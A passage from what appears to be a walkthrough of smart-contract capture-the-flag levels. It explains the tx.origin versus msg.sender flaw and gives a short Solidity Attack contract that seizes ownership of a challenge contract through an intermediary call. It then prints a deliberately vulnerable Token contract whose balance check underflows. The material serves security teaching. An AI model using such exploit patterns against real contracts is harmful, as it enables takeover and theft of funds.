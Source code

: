 ```solidity
}
```

We have to become the owner of the challenge contract. Anyone can call the changeOwner with a new owner address but to change the owner to passed "\_owner" argument, a condition must be true which is

```solidity
    if (tx.origin != msg.sender)
```

"tx.origin" is equal to the address created the transaction and "msg.sender" is equal to the address which created the message. Calling another contract is also a message call. so, when we call a different smart contract which inturn calls the challenge contract, the "tx.origin" will be our address whereas the "msg.sender" will be the address of intermediate smart contract.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface phone{
  function changeOwner(address owner) external;
}

contract Attack {
    phone call = phone(0x2346f30C90d0b3a947457A8BE69A5A835330aDda);
    function attack(address myAddress) public {
        call.changeOwner(myAddress);
    }
}
```

### Token

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
